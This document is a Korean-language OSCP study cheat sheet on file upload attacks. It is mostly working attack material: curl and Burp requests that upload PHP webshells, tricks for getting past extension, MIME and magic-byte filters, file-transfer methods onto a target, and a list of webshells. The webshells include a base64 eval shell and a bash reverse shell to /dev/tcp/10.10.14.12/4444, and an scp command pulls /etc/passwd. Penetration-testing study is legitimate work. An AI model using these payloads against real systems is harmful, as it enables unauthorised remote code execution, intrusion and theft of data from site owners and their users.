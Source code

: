 # 파일 업로드 기법 (OSCP 시험용)

## curl - 웹사이트 파일 업로드

```bash
# ★ 중요: @는 로컬파일 지정자임!!! 절대 빼먹지 말것 ★

# 기본 업로드 - 대부분의 웹폼에서 동작
curl -F "file=@/home/kali/shell.php" http://10.10.10.10/upload.php
curl -F "fileToUpload=@./shell.php" http://10.10.10.10/upload.php

# -v로 전체 HTTP 요청/응답 보기
curl -v -F "file=@./shell.php" http://10.10.10.10/upload.php

# 다른 필드값 추가 (웹폼 분석해서 필요한 항목 추가)
curl -F "file=@./shell.php" -F "token=1234" -F "submit=Upload" http://10.10.10.10/upload.php

# 파일명 변경 (확장자 필터링 우회)
curl -F "file=@./shell.php;filename=shell.jpg" http://10.10.10.10/upload.php

# 타입 변경 (MIME 타입 필터링 우회)
curl -F "file=@./shell.php;type=image/jpeg" http://10.10.10.10/upload.php

# 헤더 추가 (인증 필요한 경우)
curl -F "file=@./shell.php" -H "Cookie: PHPSESSID=4je2f1o3m2df" http://10.10.10.10/upload.php
```

## 수동 HTTP 요청 작성 (BurpSuite에서 사용)

```
POST /upload.php HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Content-Length: 236

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

## 파일 전송 방법 (내 PC → 타겟)

### 방법1: 웹서버 + wget/curl (가장 많이 씀!!!)

```bash
# 1. 공격자 PC에서 웹서버 실행
cd /home/kali/payloads    # 전송할 파일이 있는 폴더로 이동
python3 -m http.server 80 # 80포트로 서버열기 (sudo 필요)

# 2. 타겟에서 내 파일 다운받기
wget http://내IP/shell.php       # wget으로 다운로드
curl -O http://내IP/shell.php     # curl로 다운로드
certutil -urlcache -f http://내IP/shell.exe shell.exe  # Windows에서
```

### 방법2: SCP (SSH 접근 가능할 때)

```bash
# 내 PC → 타겟
scp ./shell.php user@10.10.10.10:/tmp/
scp -P 2222 ./shell.php user@10.10.10.10:/var/www/html/  # 포트지정

# 타겟 → 내 PC (데이터 빼올 때)
scp user@10.10.10.10:/etc/passwd ./evidence/
```

### 방법3: NC (방화벽 우회에 유용)

```bash
# 타겟에서 받기 모드
nc -lvp 4444 > shell.php

# 내 PC에서 보내기
nc 10.10.10.10 4444 < shell.php

# 바이너리 파일은 (압축해서 전송)
# 내 PC에서:
tar -cf - shell.bin | nc 10.10.10.10 4444
# 타겟에서:
nc -lvp 4444 | tar -xf -
```

### 방법4: 기타 전송방법

```bash
# FTP 서버 사용 (익명 로그인 허용시)
ftp 10.10.10.10
> put shell.php

# PHP 웹쉘에서 (이미 RCE가 있을 때)
echo "<?php file_put_contents('shell.php', file_get_contents('http://내IP/shell.php')); ?>"

# Base64로 전송 (작은 파일)
# 1. 내 PC에서 인코딩
base64 -w 0 shell.php
# 2. 타겟에서 디코딩
echo "base64문자열" | base64 -d > shell.php
```

## 업로드 필터 우회 기법 (시험에서 자주 나옴!)

### 1. 확장자 필터링 우회

```
# 시도해볼 트릭 목록
shell.php → shell.php.jpg  (이중 확장자)
shell.php → shell.pHp      (대소문자)
shell.php → shell.phtml    (대체 확장자)
shell.php → shell.PHP5     (다른 버전)
shell.php → shell.php.      (점 추가)
shell.php → "shell.php "    (공백 추가)
shell.php → shell.php;.jpg  (세미콜론)
shell.php → shell.ph\x70   (16진수 인코딩)

# 널바이트 삽입 (PHP 5.3.4 미만)
shell.php → shell.php%00.jpg
```

### 2. MIME 타입 변조 (Burp에서 변경)

```
# 원래 값
Content-Type: application/x-php

# 변경할 값 (이미지처럼 속이기)
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif
```

### 3. 매직바이트/시그니처 속이기

```bash
# GIF 파일 헤더 추가한 웹쉘
echo 'GIF89a;<?php system($_GET["cmd"]); ?>' > shell.gif

# JPEG 헤더 추가
printf "\xFF\xD8\xFF\xE0" > header.jpg
cat header.jpg shell.php > shell.jpg.php

# 이미지에 PHP 코드 숨기기
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
mv image.jpg shell.php.jpg
```

### 4. 클라이언트 측 검사 우회

```
# 방법1: F12 개발자도구로 JS 비활성화
# 방법2: 폼 제출 직전에 Burp로 가로채서 파일 내용/이름 변경
# 방법3: HTML 편집해서 accept=".jpg,.png,.gif" 속성 제거
```

## 업로드 성공 후 파일 접근 및 테스트

```
# 일반적인 업로드 경로 추측
http://10.10.10.10/uploads/shell.php
http://10.10.10.10/images/shell.php
http://10.10.10.10/upload/shell.php
http://10.10.10.10/files/shell.php

# 명령 실행 테스트
http://10.10.10.10/uploads/shell.php?cmd=id
http://10.10.10.10/uploads/shell.php?0=id
http://10.10.10.10/uploads/shell.jpg.php%00?cmd=whoami

# dirb/gobuster로 업로드 폴더 찾기
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

## 자주 쓰는 웹쉘 코드 (콘텐츠 필터링 우회용)

```php
// 1. 기본 웹쉘
<?php system($_GET['cmd']); ?>

// 2. 백틱 사용 (alternative)
<?php echo `$_GET[0]`; ?>

// 3. 함수명 필터링 우회
<?php $_GET['f']($_GET['c']); ?>
// 사용법: ?f=system&c=id

// 4. 인코딩 우회
<?php eval(base64_decode($_REQUEST[1])); ?>
// 사용법: ?1=c3lzdGVtKCdpZCcp

// 5. 파일 포함
<?php include($_GET["file"]); ?>
// 사용법: ?file=/etc/passwd

// 6. 리버스 쉘 원라이너
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/4444 0>&1'"); ?>
```

## 내가 많이 쓰는 파일 업로드 공격 패턴

1. 파일 업로드 폼 찾기
2. 기본 PHP 파일 시도 (system/exec 함수)
3. 업로드 실패시 확장자 검사 우회 (.php.jpg, .phtml 등)
4. 확장자 성공해도 내용 필터링시 매직바이트 추가
5. BurpSuite로 Content-Type 변조 시도
6. 클라이언트측 검증 우회 (JS 비활성화)
7. 성공 후 쉘 접속해서 권한상승 시도

## 파일 업로드 취약점 자주 발견되는 곳

- 프로필 이미지 업로드 기능
- 첨부파일 업로드
- 관리자 페이지 백업 기능
- 제품/카탈로그 이미지 업로드
- 이력서/문서 제출 폼
- 댓글에 이미지 첨부 기능
